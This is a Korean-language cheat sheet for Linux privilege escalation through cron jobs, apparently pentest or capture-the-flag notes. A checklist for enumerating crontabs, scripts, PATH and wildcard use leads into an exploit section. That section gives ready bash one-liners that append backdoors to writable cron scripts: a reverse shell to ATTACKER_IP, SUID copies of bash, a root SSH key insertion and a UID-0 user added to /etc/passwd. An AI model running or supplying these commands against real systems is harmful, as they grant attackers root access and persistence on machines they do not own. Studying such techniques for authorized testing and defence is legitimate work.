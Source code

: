 ## 📋 단계별 체크리스트

### Phase 1: cron 발견 및 분석 (2분)

- [ ] **cron 데몬 실행 확인**: `ps aux | grep cron`
- [ ] **시스템 crontab**: `/etc/crontab` 내용 확인
- [ ] **cron 디렉토리들**: `/etc/cron.*` 모든 디렉토리 확인
- [ ] **사용자 crontab**: `crontab -l` 및 `/var/spool/cron` 확인
- [ ] **systemd 타이머**: `systemctl list-timers` (최신 시스템)

### Phase 2: 실행 스크립트 분석 (3분)

- [ ] **스크립트 파일 권한**: cron에서 실행되는 모든 스크립트 권한 확인
- [ ] **스크립트 내용 분석**: 실행되는 명령어들과 경로 확인
- [ ] **PATH 환경변수**: cron의 PATH 설정 확인
- [ ] **와일드카드 사용**: 스크립트에서 \*, ? 사용하는 부분 찾기
- [ ] **상대 경로**: 절대 경로가 아닌 명령어들 확인

### Phase 3: 악용 가능성 확인 (2분)

- [ ] **쓰기 권한**: 스크립트 파일이나 디렉토리에 쓰기 권한 있는지
- [ ] **PATH 하이재킹**: PATH에 쓰기 가능한 디렉토리 있는지
- [ ] **와일드카드 인젝션**: tar, rsync 등에서 와일드카드 사용하는지
- [ ] **심볼릭 링크**: 스크립트가 심볼릭 링크를 따라가는지
- [ ] **파일 생성**: 새로운 cron job 파일 생성 가능한지

### Phase 4: 실시간 모니터링 (지속적)

- [ ] **프로세스 모니터링**: pspy나 기타 도구로 실시간 확인
- [ ] **로그 모니터링**: cron 로그 실시간 추적
- [ ] **파일시스템 변화**: 새로 생성되는 파일들 모니터링
- [ ] **네트워크 연결**: cron이 만드는 네트워크 연결 확인

## 🎯 발견별 즉시 익스플로잇

### 📝 쓰기 가능한 cron 스크립트

```bash
# 1. 기존 스크립트에 백도어 추가
echo '#!/bin/bash' > /tmp/backup.sh
echo 'chmod +s /bin/bash' >> /tmp/backup.sh
# 쓰기 가능한 cron 스크립트에 추가
echo 'bash /tmp/backup.sh' >> /path/to/writable/cron/script.sh

# 2. 직접 리버스쉘 추가
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /path/to/cron/script.sh

# 3. SUID 바이너리 생성
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /path/to/cron/script.sh

# 4. SSH 키 추가
echo 'mkdir -p /root/.ssh && echo "ssh-rsa YOUR_PUBLIC_KEY" >> /root/.ssh/authorized_keys' >> /path/to/cron/script.sh

# 5. /etc/passwd 수정
echo 'echo "hacker:\$6\$salt\$hash:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /path/to/cron/script.sh
```
